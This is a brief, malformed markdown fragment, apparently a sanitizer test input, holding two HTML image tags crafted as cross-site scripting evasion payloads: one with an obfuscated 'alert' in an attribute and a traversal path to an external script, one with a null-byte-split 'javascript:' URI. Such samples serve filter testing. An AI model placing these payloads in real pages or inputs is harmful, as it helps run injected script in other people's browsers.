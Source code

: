 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" x:link="width:\u0061lert(1);" />
<img src="java\0script:alert('XSS')">

](()
